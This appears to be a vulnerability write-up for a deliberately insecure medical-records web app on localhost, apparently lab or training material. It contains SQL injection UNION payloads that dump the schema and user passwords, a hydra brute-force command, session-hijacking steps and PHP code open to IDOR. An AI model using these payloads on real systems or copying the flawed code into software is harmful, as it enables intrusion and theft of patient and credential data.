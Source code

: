 **Extract Database Schema**:
```
' UNION SELECT 1,table_name,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20 FROM information_schema.tables WHERE table_schema='medcare_ehr' -- 
```

**Dump All Passwords**:
```
' UNION SELECT id,username,password,email,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19 FROM users -- 
```

---

### 2. Broken Authentication

**Location**: Login system
**Severity**: CRITICAL

#### Vulnerabilities:
- Passwords stored in **plain text** (no hashing)
- No account lockout after failed attempts
- No MFA/2FA
- Predictable session IDs
- No password complexity requirements

#### Exploitation:

**Brute Force Attack**:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8080 http-post-form "/index.php:username=^USER^&password=^PASS^:Invalid credentials"
```

**Database Direct Access**:
```sql
SELECT username, password FROM users;
```

**Session Hijacking**:
- Copy `PHPSESSID` cookie from another user
- No session validation or IP binding

---

### 3. Insecure Direct Object Reference (IDOR)

**Location**: `dashboard.php`
**Severity**: HIGH

#### Vulnerable Code:
```php
$patient_id = $_GET['patient_id'];
$query = "SELECT * FROM patients WHERE id = $patient_id";
// No authorization check!
```
